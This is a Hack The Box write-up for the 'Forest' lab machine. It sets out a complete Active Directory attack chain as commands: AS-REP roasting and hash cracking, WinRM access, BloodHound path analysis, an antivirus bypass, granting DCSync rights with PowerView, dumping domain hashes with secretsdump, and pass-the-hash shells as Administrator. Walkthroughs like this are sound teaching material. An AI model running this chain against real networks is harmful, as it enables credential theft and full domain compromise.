 ```yaml
---
date: 2025-03-28
categories: [CTF, HTB]
title: "HTB - Forest"
tags: ['bloodhound', 'hashcat', 'impacket', 'kerberos', 'ldap', 'linux', 'nmap', 'privilege escalation', 'rce', 'secretsdump', 'smb', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Forest - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Forest

```bash
nmap 10.129.95.210 -A

```

![image1](../resources/711e7307ff794f6cbf6267013997a959.png)

- Looks like this could be the DC (Kerberos)
- Got the domain from ldap - **htb.local**

- Port 445 SMB is open
- Enumerate with enum4linux

```bash
enum4linux 10.129.95.210

```
- Found users:

![image2](../resources/20f9c52a79b54382b6e591412d9adb91.png)


![image3](../resources/12f7a24d9c9042fa9df1e633361e6493.png)

- <u>Can also use LDAP to enumerate:</u>

```bash
ldapsearch -H ldap://10.129.95.210 -x -s base -b '' "(objectClass=*)" "*" +
```

![image4](../resources/654647aff37743419fe09ff3eb012172.png)

```bash
ldapsearch -H ldap://10.129.95.210 -x -b "DC=htb,DC=local" | grep "dn: CN=" | grep "OU="
```

![image5](../resources/fcedadc34f5c47498612578acbe9a079.png)

<https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

- Add users in a file (**users**)

- Check if usernames are valid:

```bash
kerbrute userenum --dc 10.129.95.210 -d htb.local users -o validusers.txt

```

![image6](../resources/3d882de76f884541bc79be2f2bf636a0.png)

- Vind vulnerable users:

```bash
impacket-GetNPUsers htb.local/ -users users -no-pass -dc-ip 10.129.95.210

```

![image7](../resources/f025b74aec67441f97fb2deff533359e.png)

- Save the whole hash to a file and use hashcat:

```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image8](../resources/329228a4ba98415d9415ad926177c823.png)

Got credentials for a service account.

- Test with CME:

```bash
crackmapexec smb 10.129.95.210 -u svc-alfresco -p <password>

```

![image9](../resources/df6387c210d444d49f6852fd97b7b6c4.png)

- Remote using WinRM:

```bash
evil-winrm -i 10.129.95.210 -u svc-alfresco -p <password>

```

![image10](../resources/b0da291eb004454c94a88fb3b89ba7e3.png)


![image11](../resources/6c1dceeb42bf4cb28ac9f2c67a1d7032.png)

**<u>Priv Esc:</u>**

```bash
whoami /all

```

![image12](../resources/787ff38513e848848c131819de4c95ab.png)

- Part of the:
**BUILTIN\Account Operators**

The Account Operators group grants limited **account creation privileges** to a user.

Members of this group can create and modify most types of accounts, including accounts for users, Local groups, and Global groups.

Group members can log in locally to domain controllers

- Upload Sharphound:

```bash
upload SharpHound.exe

```
- Run Sharphound:

```bash
.\SharpHound.exe --CollectionMethods All --Domain htb.local --ZipFileName loot.zip

```
- Download the loot.zip file:

```bash
download 20240205024401_loot.zip

```
- Start Neo4j:

```bash
sudo neo4j console

```
- Open Bloodhound
Drag and drop the loot.zip file into bloodhound

Click on - **Find Shortest Paths to Domain Admins**


![image13](../resources/b259b9483f584490a258a9eb2b83d5b6.png)

If there is loads of old data in bloodhound:

Connect to the neo4j browser gui <http://localhost:7474>

Run:

```bash
MATCH (n)

DETACH DELETE n;

```

![image14](../resources/a81df9fe27cf4b368ca75963582fbcc3.png)


![image15](../resources/b4105ed3e6734f0880074ed44f063fee.png)

- **The user svc-alfresco is part of the Account Operators group**


![image16](../resources/46f99dc060234015a590067222896335.png)

- Click on the Account Operators node and Reachable High Value Targets

![image17](../resources/029cb7f8d2914fdb874d1124d221fd0a.png)


![image18](../resources/c54af6facdca4248872077bab5945087.png)


![image19](../resources/598ff1be2ca242e7b5612919824d2a57.png)

- Account operators has GenericAll to the Exchange Windows Permissions

![image20](../resources/e33572edc1764efbad8bd89ac7c1857d.png)

- And that in turn has WriteDACL to the HTB.LOCAL

![image21](../resources/a004f7b15ae94c44b790748fa5ff5503.png)

- HTB.LOCAL is the domain so we know that all accounts are part of it ie. Administrator

- And clicking on the Domain Admins' node - We can see that Administrator account is a part of that group.
And we need DA

- **<u>To exploit:</u>**

- Create a new user (tooby):

```bash
net user tooby Password123! /add /domain

```
- Add to the group Exchange Windows Permissions

```bash
net group "Exchange Windows Permissions" tooby /add

```
- Open the menu in evil-winrm:

```bash
menu

```

![image22](../resources/0d1d666a37e94b3fbe7869d2595a0d89.png)

- Use Bypass-4MSI - To bypass AV

![image23](../resources/bce6ba48b3934433a7bfae386888855a.png)

- Upload PowerView.ps1 and run it:
  upload PowerView.ps1

```powershell
  . .\PowerView.ps1
  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('htb\tooby', $SecPassword)
  Add-DomainObjectAcl -PrincipalIdentity tooby -Credential $Cred -Rights DCSync
```

- User tooby has DCSync rights now

- Run a DCSync to get hashes:

```bash
impacket-secretsdump htb/tooby:'Password123!'@10.129.95.210 -dc-ip 10.129.95.210
```

![image24](../resources/731b570fcc194ce1b4e5e6b68526e96c.png)

- Got htb.local\Administrator hash

- **<u>Get shell:</u>**

- <u>Psexec:</u>

```bash
impacket-psexec htb/administrator@10.129.95.210 -hashes "<password_hash>"
```

![image25](../resources/829f70572ea947afbe3f7c5eb3617d17.png)


![image26](../resources/c5363a4bedf249f986ba565afdf8074c.png)

- <u>Evil-WinRM:</u>

```bash
evil-winrm -i 10.129.95.210 -u administrator -H "<second_half_of_hash>"
```

![image27](../resources/56b8467c0fcc4dc8932317ea0d9670e5.png)

![image28](../resources/196ec54770d84bb2851cd1ce4788d45e.png)